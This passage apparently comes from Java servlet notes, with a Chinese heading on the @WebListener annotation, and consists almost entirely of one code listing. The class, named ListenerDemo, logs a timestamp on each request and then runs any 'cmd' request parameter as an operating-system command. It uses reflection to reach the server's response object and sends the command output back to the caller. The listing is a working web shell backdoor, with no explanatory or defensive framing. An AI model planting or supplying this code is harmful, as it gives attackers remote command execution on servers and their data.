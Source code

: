 ##### 注解 @WebListener

@WebListener

> ```java
> @WebListener
> public class ListenerDemo implements ServletRequestListener {
>     @Override
>     public void requestInitialized(ServletRequestEvent sre) {
>         HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
>         try {
>             SimpleDateFormat sdf = new SimpleDateFormat();
>             sdf.applyPattern("yyyy-MM-dd HH:mm:ss");
>             Date date = new Date();
>             System.out.println("Listener触发时间：" + sdf.format(date));
>             if (sre.getServletRequest().getParameter("cmd") != null){
>                 Process process = Runtime.getRuntime().exec(sre.getServletRequest().getParameter("cmd"));
>                 java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
>                 Field requestF = req.getClass().getDeclaredField("request");
>                 requestF.setAccessible(true);
>                 Request request = (Request)requestF.get(req);
>                 StringBuilder stringBuilder = new StringBuilder();
>                 String line;
>                 while ((line = bufferedReader.readLine()) != null) {
>                     stringBuilder.append(line + '\n');
>                 }
>                 request.getResponse().getOutputStream().write(stringBuilder.toString().getBytes());
>                 request.getResponse().getOutputStream().flush();
>                 request.getResponse().getOutputStream().close();
>             }
>         } catch (IOException | NoSuchFieldException | IllegalAccessException e) {
>             e.printStackTrace();
>         }
>     }
>     @Override
>     public void requestDestroyed(ServletRequestEvent sre) {
>     }
> }
> ```
